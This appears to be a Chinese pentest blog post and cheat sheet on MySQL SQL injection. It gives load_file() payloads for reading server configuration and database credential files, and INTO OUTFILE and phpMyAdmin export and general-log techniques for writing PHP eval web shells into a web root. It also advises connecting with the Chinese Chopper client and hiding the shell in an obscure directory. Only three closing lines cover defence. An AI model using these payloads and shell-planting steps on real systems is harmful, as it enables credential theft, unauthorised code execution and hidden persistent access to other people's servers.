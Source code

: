 +++
date = "2016-06-20T08:10:27+08:00"
description = ""
draft = false
tags = ["injection", "getshell"]
title = "SQL注入之load_file和into outfile(MySQL)"
topics = ["Pentest"]

+++
<!--
 * @Author: reber
 * @Mail: reber0ask@qq.com
 * @Date: 2019-04-10 10:45:00
 * @LastEditTime : 2020-04-29 16:58:30
 -->

### 0x00 load_file() 读文件
* 条件:

```
1. 要有file_priv权限
2. 知道文件绝对路径
3. 能使用union
4. 对web目录有读权限  
注：若过滤了单引号，则可以将函数中的字符进行hex编码
```

* 一般步骤
    * 读/etc/init.d下的东西，这里有配置文件路径
    ```
    ?id=1' union select 1,2,load_file('/etc/init.d/httpd')
    ```

    * 得到web安装路径  
    ```
    ?id=1' union select 1,2,load_file('/etc/apache/conf/httpd.conf')
    ```

    * 读取密码文件
    ```  
    ?id=1' union select 1,2,load_file('/site/xxx.com/conf/conn.inc.php')
    ```

### 0x01 into outfile getshell
* 条件：

```
1. 要有file_priv权限  
2. 知道网站绝对路径  
3. 要能用union  
4. 对web目录有写权限  
5. 没有过滤单引号
```

* 一般方法  
当知道路径时，可以直接用

```
id=1 union select "<? phpinfo();>" into outfile("C:/phpStudy/WWW/a.php")

id=1 into outfile 'C:/phpStudy/WWW/a.php' columns terminated by '<? phpinfo();>';
id=1 into outfile 'C:/phpStudy/WWW/a.php' fields terminated by '<? phpinfo();>';
id=1 into outfile 'C:/phpStudy/WWW/a.php' lines terminated by '<? phpinfo();>';
id=1 into outfile 'C:/phpStudy/WWW/a.php' lines starting by '<? phpinfo();>';
```

* phpMyAdmin 导出数据 getshell 

登陆phpMyAdmin  
```
use test;  选择数据库为test
create table aaa(bbb varchar(64));   在数据库中创建一个表aaa
insert into aaa values("<?php @eval($_POST['c']);?>"); --在 aaa 中写入 shell 内容
select * from aaa into outfile 'C:/phpStudy/WWW/a.php'; --将 aaa 中的数据导出到文件 a.php
```

localhost:80/a.php能访问  
```
drop aaa; --删除建立的表
```

然后菜刀连接  
```ini
菜刀连接http://www.aa.com/a.php，然后更改shell的名字并将shell放在较隐蔽的地方，比如C:\phpStudy\WWW\phpMyAdmin\setup\lib\common.php
```

* phpMyAdmin 日志 getshell

```
show variables like '%general%';             #查看配置
set global general_log = on;                 #开启general log模式
set global general_log_file = 'C:/phpStudy/WWW/a.php'; #设置日志目录为shell地址
select '<?php eval($_GET[g]);?>'             #写入shell
set global general_log=off;                  #关闭general log模式
```

### 0x02 防御
* 数据库连接账号不要用root权限
* php关闭报错模式
* mysql账户没有权限向网站目录写文件